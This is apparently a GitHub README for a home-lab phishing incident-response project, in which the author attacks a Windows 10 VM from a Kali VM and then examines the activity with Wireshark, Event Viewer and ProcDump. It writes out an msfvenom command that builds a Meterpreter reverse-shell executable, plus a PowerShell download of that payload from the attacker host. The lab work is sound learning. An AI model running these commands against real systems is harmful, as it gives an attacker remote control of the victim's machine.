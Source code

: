 # Phishing-Incident-Response-Project

In this project, I wanted to simulate a phishing payload in a windows environment and capture the activity to perform an incident response investigation with tools like Wireshark and Windows Event Viewer.

# Lab Environment
| Machine    | OS           | IP Address     | Purpose                            |
| ---------- | ------------ | -------------- | ---------------------------------- |
| Kali Linux | Debian-based | 192.168.56.101 | Attacker machine (payload hosting) |
| Windows 10 | Version 22H2 | 192.168.56.102 | Target machine                     |

Virtualization: Oracle VirtualBox
Networking: Host-Only Adapter
Tools: Metasploit, Wireshark, Event Viewer, Sysinternals ProcDump, Volatility 3

# Red Team - Phishing Attack
I started with working off of my Kali Linux VM and wrote a Phishing Payload with Metasploit:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe > phishing_payload.exe

I then hosted the payload via Apache, then downloaded the Payload on my Windows VM using:
Invoke-WebRequest -Uri http://192.168.56.101/phishing_payload.exe -OutFile phishing_payload.exe

I had to disable real-time protection in my Windows VM and use the powershell command to get the payload due to Windows's native malware protections. After that, I executed the payload and proceeded to collect information from my Kali Linux VM side.

# Blue Team - Incident Response
Using Wireshark, I was able to capture the traffic between my two VMs the second the payload was executed on my Windows VM. I was also able to go into Windows Defender Event Viewer and see alerts where malware was detected and actions were taken to remove the affected software. Next, I learned how to use ProcDump to capture the memory from the payload usingL:
procdump -ma 3234 phishing_payload_dump.dmp
